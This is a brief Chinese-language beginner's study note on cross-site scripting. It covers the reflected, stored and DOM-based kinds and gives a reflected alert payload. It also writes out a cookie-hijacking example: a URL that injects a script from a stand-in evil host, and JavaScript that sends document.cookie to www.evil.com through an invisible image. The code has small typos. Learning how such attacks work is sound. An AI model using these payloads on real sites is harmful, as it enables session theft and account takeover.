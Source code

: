 
{
    "summary": "",
    "title": "XSS入门第一天",
    "list": ["HTTP"]
}

====

# XSS 跨站脚本攻击
## 分类
### 反射型XSS
将用户的输入反射给浏览器,比如：

    在提交的时候将参数写成：
      http://www.a.com/test.php?para=<script>alert('xss')</script>
      
此时脚本将被写入页面，页面弹框`‘xss’`

### 存储型XSS
将用户的输入存储在服务器，较强稳定性

### MOS Based XSS
各种拼接手段，插入新的dom节点后自动执行脚本，做相应操作

## XSS Payload
> 通过恶意脚本，控制用户浏览器,这些恶意脚本就是XSS Payload

### Cookie劫持

#### 最简单版本
1. 先加载一个远程脚本`http://www.a.com.test.html?abc=<script src=http://www.eval.com/evil.js></script>`
2. 远程脚本中写好了拿到cookie的代码，由于同源策略的影响，故这样设置：

```
var img = document.creatElement('img');
img.src = 'http://www.evil.com/log?'+escape(document.cookie);
document.body.appendChild(img);
```

    
3. 上述代码就是加载一张看不见的图片，并将cookie发送给远程服务器

#### 利用窃取的cookie登录目标账户
将上述获得的cookie，利用这个cookie模拟请求登录

### 构造GET和POST请求
还在细看中  